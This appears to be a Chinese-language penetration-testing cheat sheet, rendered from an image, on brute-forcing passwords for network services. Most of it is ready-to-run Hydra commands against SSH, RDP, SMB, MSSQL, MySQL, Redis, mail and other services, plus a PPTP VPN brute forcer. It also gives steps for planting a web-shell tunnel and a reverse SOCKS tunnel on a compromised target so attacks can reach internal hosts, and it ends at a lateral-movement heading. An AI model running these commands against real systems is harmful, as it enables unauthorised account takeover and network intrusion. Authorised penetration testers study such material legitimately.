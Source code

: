 	- xHydra(kali自带)
	- Hydra
	- Ncrack
	- Medusa
	- Metasploit

- hydra 基础服务弱口令探测

	- 爆破mssql:hydra -l sa -P pwd.txt -e ns -f -o res.json -b json -M ip.txt -t 8 -T 16 -w 20 -V mssql
	- 爆破smb:hydra -l administrator -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V smb
	- 爆破rdp:hydra -l domain\\administrator -P pwd.txt -e ns -f -o res.txt -t 4 -w 20 -V rdp://ip
	- 爆破ssh:hydra -l root -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V ssh://ip
	- 爆破mysql:hydra -l root -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V mysql
	- 爆破pg:hydra -l postgres -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V postgres
	- 爆破redis:hydra -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V redis://ip
	- 爆破ftp:hydra -l wwwadmin -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V ftp://ip
	- 爆破smtp:hydra -l zhangsan@company.com -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V smtp://ip
	- 爆破imap:hydra -S -l zhangsan@company.com -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V imap://ip
	- 爆破pop3:hydra -S -l zhangsan@company.com -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V pop3://ip
	- 爆破telnet:hydra -l administrator -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V telnet
	- 爆破snmp:hydra -P pwd.txt -e ns -f -o res.txt -M ip.txt -t 8 -T 16 -w 20 -V snmp
	- 爆破socks5:hydra -l admin -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -s port -V socks5://ip

- 爆破pptp协议的vpn

	- the-pptp-bruter -n 100 -u vpn ip < pwd.txt

- 通过加密隧道进行服务爆破

	- http加密隧道

		- abptts基于ssl加密的http隧道工具:
pip install pycrypto
pip install httplib2
python abpttsfactory.py -o webshell
python abpttsclient.py -c webshell\config.txt -u "http://ip/abptts.aspx" -f 127.0.0.1:445/127.0.0.1:445
hydra -l administrator -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V smb://127.0.0.1

	- socks5加密隧道

		- 建立隧道:
攻击机执行: ./ew_for_linux64 -s rcsocks -l 1080 -e 8888
目标机执行: ew_for_Win.exe -s rssocks -d 攻击机ip -e 8888
配置代理:
proxychains.conf:
ProxyList:
socks5 攻击机ip 1080
服务爆破:
proxychains hydra -l sa -P pwd.txt -e ns -f -o res.txt -t 8 -T 16 -w 20 -V mssql://目标ip

### 横向移动
